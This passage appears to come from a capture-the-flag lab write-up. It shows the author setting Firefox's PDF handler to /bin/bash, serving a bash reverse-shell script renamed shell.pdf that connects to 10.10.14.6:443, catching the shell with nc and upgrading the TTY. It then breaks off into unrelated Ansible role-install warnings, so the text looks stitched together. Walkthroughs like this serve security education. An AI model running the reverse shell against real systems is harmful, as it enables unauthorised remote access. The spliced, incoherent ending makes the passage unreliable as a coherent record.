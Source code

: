 #### PDF Handler

What eventually works is changing how Firefox handles PDFs in the settings:

![image-20240513175522661](/img/image-20240513175522661.png)

I’ll edit that to “Use other…”:

![image-20240513175542355](/img/image-20240513175542355.png)

And select `/bin/bash`:

![image-20240513175604713](/img/image-20240513175604713.png)

Now I’ll save my shell as `shell.pdf`:

```

oxdf@hacky$ cat www/shell.sh
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1
oxdf@hacky$ cp www/shell.sh www/shell.pdf

```

It’s on the webserver:

![image-20240513175742838](/img/image-20240513175742838.png)

When I click, I get a shell at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.15 43300
bash: cannot set terminal process group (13): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

WARNING: Very high value reported by "ulimit -n". Consider passing "--ulimit nofile=32768" to "docker run".
seluser@25d42bb4575d:/$ 

```

#### Escalate

I’ll upgrade the shell using [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

seluser@25d42bb4575d:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

WARNING: Very high value reported by "ulimit -n". Consider passing "--ulimit nofile=32768" to "docker run".
seluser@25d42bb4575d:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            ‍reset
reset: unknown terminal type unknown
```

[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.